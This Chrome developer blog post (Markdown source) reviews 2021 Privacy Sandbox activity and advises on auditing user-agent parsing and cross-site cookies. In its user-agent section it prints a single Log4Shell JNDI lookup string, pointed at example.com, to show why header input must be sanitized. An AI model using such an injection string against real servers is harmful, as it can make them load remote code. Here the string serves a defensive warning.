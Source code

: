 ```yaml
---
title: Progress in the Privacy Sandbox (December 2021)
description: >
  Looking back at stats from 2021 and some resolutions for tackling user-agent and cookies in 2022.
layout: 'layouts/blog-post.njk'
date: 2022-01-07
authors:
  - rowan_m
hero: 'image/VWw0b3pM7jdugTkwI6Y81n6f5Yc2/Ut0IykTaEFBuOA5EHqbg.png'
alt: >
  Privacy Sandbox logo
tags:
  - progress-in-the-privacy-sandbox
  - privacy
---
```


Welcome to the 2021 wrap-up edition of **[Progress in the Privacy
Sandbox](/tags/progress-in-the-privacy-sandbox/)** tracking the milestones on
the path to phasing out third-party cookies in Chrome and working towards a more
private web. Normally, we share an overview of updates to the **[Privacy Sandbox
timeline](https://privacysandbox.com/timeline/)** along with news from across
the project, but December was a quiet month. Instead, we'll look back at some of
the activities over 2021 and provide a few potential resolutions you can make
now we are in the new year.

## Chromium development process

For a new web platform feature to land in Chromium, it needs to go through the
[project's open development
process](https://www.chromium.org/blink/launching-features). In 2021, the
Privacy Sandbox team produced:

<figure>
  <table style="font-size: 140%; font-weight: bold; font-variant-numeric: tabular-nums;">
  <tr><td>🥚</td><td>Intent to Prototype </td>     <td>19</td></tr>
  <tr><td>🧪</td><td>Intent to Experiment</td><td>&nbsp;8</td></tr>
  <tr><td>🚀</td><td>Intent to Ship      </td>     <td>11</td></tr>
  </table>
  <figcaption>
    <a href="https://docs.google.com/spreadsheets/d/e/2PACX-1vR-5YYZ-lxG9xelJFCYM2yajUEWUNKZkiXcWX9BYi8dSUV_5Xrhd5u-iyNNf4w8NAVwrSrVWjeNrC-i/pubhtml#">Source</a>
  </figcaption>
</figure>

Each milestone is also an invitation for the wider web ecosystem to contribute.

An **Intent to Prototype** is the first checkpoint, where we invite discussion
and early experimentation. This means a proposal will be available on GitHub,
where **you can ask a question by creating an Issue** or **[join discussions and
presentations in standards
groups](/docs/privacy-sandbox/cds21-update/#discussion)** such as the W3C and
IETF. This is also where coding begins, which means you can **expect the
prototype functionality to be made available for developer testing behind a
[feature
flag](https://www.chromium.org/developers/how-tos/run-chromium-with-flags)**.
Initial feedback is critical for validating and iterating on proposals.

An **Intent to Experiment** is an optional step if we’d like to request an
origin trial. Developers **can [sign up for the origin
trial](/blog/origin-trials/)** of a feature, and then **test  it on your
production site**. It's called an experiment because we have specific aspects of
the feature we want to validate in real-world environments. Developers that can
**test and share the results of those tests** provide valuable feedback to help
iterate and evolve the feature.

An **Intent to Ship** is the final milestone which signals that a feature is now
complete and ready for general availability. Once approved, the feature is
merged into an upcoming release and then progresses through the Canary, Beta,
and Stable channels. It's critical to ensure you **test your sites with the
[Canary](https://www.google.com/chrome/canary/) and
[Beta](https://www.google.com/chrome/beta/) versions of Chrome** to catch and
report any bugs before a feature reaches Stable.

## Proposals

Each Privacy Sandbox proposal has an accompanying GitHub repository. A
repository hosts an explainer to summarize overall functionality, a detailed
specification for implementation by browsers, and contributions from across the
web ecosystem in the form of Issues and Pull Requests.

Across 14 Privacy Sandbox repositories, we had:

<figure>
  <table style="font-size: 140%; font-weight: bold; font-variant-numeric: tabular-nums;">
    <tr><td rowspan="2">💬</td><td>545</td><td>Issues created</td></tr>
    <tr>                       <td>250</td><td>Issues closed</td></tr>
    <tr><td rowspan="2">🛠️</td><td>261</td><td>Pull Requests created</td></tr>
    <tr>                       <td>223</td><td>Pull Requests merged</td></tr>
  </table>
  <figcaption>
    <a href="https://docs.google.com/spreadsheets/d/e/2PACX-1vR-5YYZ-lxG9xelJFCYM2yajUEWUNKZkiXcWX9BYi8dSUV_5Xrhd5u-iyNNf4w8NAVwrSrVWjeNrC-i/pubhtml#">Source</a>
  </figcaption>
</figure>

The language in explainers and specifications is often targeted to an audience
already familiar with standards and browser development, which can be
challenging if you're unfamiliar with it. However, the aim of an explainer is to
explain! If there are points that are unclear or not covered, **we want you to
raise an Issue** so we can update and clarify the explainer.

## Resolutions

### User-agent spring cleaning

As we count _down_ to the New Year, we're also counting _up_ to both [Chrome
100](/blog/force-major-version-to-100/) and the incremental [reduction of the
user-agent string](/docs/privacy-sandbox/user-agent/). This is a good motivator
to revisit any usage of the user-agent string in your code to check if it's
affected by either of these changes.

To find those areas:

1. Search for `navigator.userAgent` in your JavaScript code, or access to the
   `User-Agent` header in your server code.
2. Check your parsing of the string for assumptions about a 2 digit version. For
   example, a regex that specifies `\d\d` or `\d{2}` should be replaced with
   `\d+`.
3. Check your use of the string for anywhere you rely on the:
    * platform (operating system) version
    * full Chrome build version
    * mobile device name
4. These are the values that will be reduced to fixed strings in the future. If
   you need access to these values, [migrate to User-Agent Client
   Hints](https://web.dev/migrate-to-ua-ch/).

There is one December update to mention—if you are adopting User-Agent Client
Hints then we have sent the **Intent to Ship to [enable delegating hints to
other origins in
HTML](https://groups.google.com/a/chromium.org/g/blink-dev/c/JQ68cvYuiQU/m/S_33YSqxCwAJ)**
via a `<meta>` tag, for example:

```html
<meta name="accept-ch" content="sec-ch-ua-model=( https://foo.bar )">`
```

If you're in an enthusiastic spring cleaning mood, you can also consider
alternatives to the use of user-agent altogether. If you're using the string to
detect mobile devices, then investigate if you can replace this with responsive
design. If you're checking the browser name and version for feature support, see
if you can use feature detection instead.

It's always worth remembering that the user-agent, like any client provided
value, is not guaranteed to be accurate or even provided. The recent [Log4j
vulnerability, "Log4shell"](https://logging.apache.org/log4j/2.x/security.html)
provides an example of this risk. A client that sets its user-agent string to
include a value like `${jndi:ldap://example.com/file}` may be able to get a site
to actively parse that on the server. It's critical that you treat user-agent in
the same way as any other form of user input: sanitize and validate it before
acting on the value.

### Cookie cataloguing

Another traditional new year activity is to make sure you're happy you have a
healthy number of cookies with quality ingredients. As we continue moving
towards the phase out of third-party cookies, you should make sure you know
which of your site's cookies will be affected. 2020 provided a headstart as it
became necessary to [mark all cookies for cross-site or third-party
use](https://web.dev/samesite-cookies-explained/#samesitenone-must-be-secure)
with `SameSite=None`. 

Any cookie where you have set the `SameSite` attribute to `None` will need an
update.

There are three possible routes to consider at the moment:

1. If the cookie is only required in a 1:1 relationship with the top-level site,
   then follow the progress of the **[CHIPS
   proposal](https://github.com/WICG/CHIPS)**. This will mean adding the
   `Partitioned` attribute to the cookie.
2. If the cookie is used in a cross-site context, but only across sites that you
   own and operate, then it may be a candidate for **[First-Party
   Sets](/docs/privacy-sandbox/first-party-sets/)**. This requires defining the
   sites in the set and adding the `SameParty` attribute to the cookie.
3. If the cookie is used to provide some form of shared value across multiple
   sites, investigate the wider set of [Privacy Sandbox
   proposals](/docs/privacy-sandbox/) for an alternative solution that does not
   rely on cross-site tracking.

If you're feeling especially health-conscious, then this is also an ideal time
to revisit all of your cookie usage, as we have a good recipe to improve your
first-party cookies too.

{% YouTube id='1g2uQfP1Q3U' %}

## Feedback

As we continue to publish these monthly updates, and progress through the
Privacy Sandbox as a whole, we want to make sure that developers receive the
information and support that they need. Let us know on [@ChromiumDev
Twitter](https://twitter.com/ChromiumDev) if there's anything that we could
improve in this series. We'll use your input to continue improving the format.

Check out the **[Privacy Sandbox FAQ](/docs/privacy-sandbox/faq/)**, which we
continue to expand based on the issues you submit to the [developer support
repo](https://github.com/GoogleChromeLabs/privacy-sandbox-dev-support). If you
have any questions around testing or implementation on any of the proposals,
come talk to us there.
